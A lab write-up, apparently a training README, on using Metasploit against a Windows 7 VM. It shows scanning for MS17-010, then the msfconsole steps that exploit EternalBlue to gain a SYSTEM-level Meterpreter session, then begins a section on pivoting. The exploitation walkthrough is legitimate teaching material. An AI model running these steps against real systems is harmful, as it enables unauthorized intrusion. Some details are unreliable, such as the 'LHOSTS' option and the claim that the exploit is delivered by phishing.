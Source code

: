 # Metasploit
Metasploit is a flexible platform used for penetration testing and security auditing, enabling testers to uncover system vulnerabilities and evaluate security measures. The framework includes multiple modules that can be used together to perform various tasks, such as detecting and exploiting weaknesses.

## Use Metasploit To Identify A Machine Vulnerable To MS17-010
The MS17-010 EternalBlue vulnerability is a serious remote code execution flaw in the Windows Server Message Block (SMB) protocol. Exploiting this vulnerability allows attackers to run arbitrary code on the target machine, potentially leading to system compromise and unauthorized access.

#### References
- [MS17-010 SMB RCE Detection](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_ms17_010/) by Rapid7
- [Microsoft Security Bulletin MS17-010 - Critical](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) by Microsoft
  
#### Tasks
- Launch a VM running a vulnerable version of Windows (Windows 7)
- Within the Metasploit console, use the auxiliary module "scanner/smb/smb_ms17_010" to scan the target machine for the MS17-010 vulnerability
- Validate the output from the "MS17-010 SMB RCE Detection" auxiliary module in Metasploit is 'Host is LIKELY vulnerable to MS17-010!'

Screenshot of Metasploit successfully identifying MS17-010 vulnerability shown below: <br/>
![metasploit-identify-ms17-010](https://github.com/user-attachments/assets/83d65383-097c-4022-bbd7-3b8a745b6492)




## Use Metasploit To Exploit MS17-010
The EternalBlue exploit targets a vulnerability in the Server Message Block (SMB) protocol, which was patched with the MS17-010 update. However, many systems remain unpatched, leaving them susceptible to this attack. The exploit can be delivered via phishing emails or malicious websites. Penetration testers can use Metasploit to identify hosts vulnerable to the EternalBlue exploit by scanning for the MS17-010 flaw. Once a vulnerable system is found, the tester can deploy and execute a malicious payload on the target using Metasploit.

#### Tasks
- Execute the appropriate MS17-010 exploit from Metasploit against the target machine to exploit the vulnerability
- Use the "getuid" command within the Meterpreter session
- After successful exploitation, verify that you have gained a Meterpreter session
- Demonstrate you are running as "NT AUTHORITY\SYSTEM" when executing "getuid" within the Meterpreter session

#### Solutions
1. Launch Metasploit in Kali Linux with the command `msfconsole`
2. Run the command `search ms17-010`
3. Choose a module. For automatic modules, simply enter `use 0`. Note that since no payload was configured, it defaults to `windows/x64/meterpreter/reverse_tcp`
4. Enter `show payloads`, and choose a payload number 26 `payload/windows/x64/meterpreter/bind_tcp_rc4`
5. To set the target's IP address, enter `show options` and `set RHOSTS <target_IP_address>`
6. Ensure the local machine's IP address is correct, otherwise set it using the `set LHOSTS <local_ip_address>` command
7. (Optional) Enter `set GroomAllocations 10` and `set GroomDelta 5` for controlling how memory is arranged on the target computer during an exploit. GroomAllocations decides how many memory spaces the exploit creates to prepare the computer's memory, while GroomDelta fine-tunes the size of the memory spaces

Screenshot of Metasploit successfully exploiting MS17-010 vulnerability with an active Meterpreter session shown below: <br/>
![image](https://github.com/user-attachments/assets/6c8cfafb-7834-4b86-8c90-dbfe87114ffe)



## Use Metasploit's Port Forwarding Capabilities To Gain Access To A Machine That Doesn't Have Direct Internet Access
Some networks isolate business-critical machines from the Internet and more vulnerable corporate systems using Virtual LANs (VLANs) or physical segmentation. Despite this isolation, network engineers and system administrators still require access to these restricted networks for tasks like troubleshooting, patching, or rebooting machines. As a penetration tester or red teamer, your goal is to identify users who need access to these restricted networks, target the machines they use for management, and compromise them. Once you gain control of a machine with access, you can route your traffic through it to reach the restricted network. This method, known as 'pivoting,' allows you to move into otherwise unreachable network environments.

